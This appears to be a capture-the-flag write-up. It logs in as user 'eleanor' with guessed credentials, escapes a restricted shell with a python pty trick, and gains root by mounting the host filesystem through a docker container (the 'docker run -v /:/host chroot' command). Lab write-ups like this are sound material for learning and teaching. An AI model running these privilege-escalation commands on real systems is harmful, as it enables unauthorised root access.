









With eleanor user from [[113]]
We can try `eleanor:eleanor`

We are in rbash.

Checking the home directory:


We have access to these binaries:

We can try this from gtfobins
\
The path variable is not set.
```
export PATH='/home/eleanor/bin:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin'
```
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Now we have a proper shell:

We are in docker group.

```
docker images
```

We have redmine running as root as we know from [[113]]

To get root:
```
docker run -it -v /:/host/ redmine:latest chroot /host/ bash
```
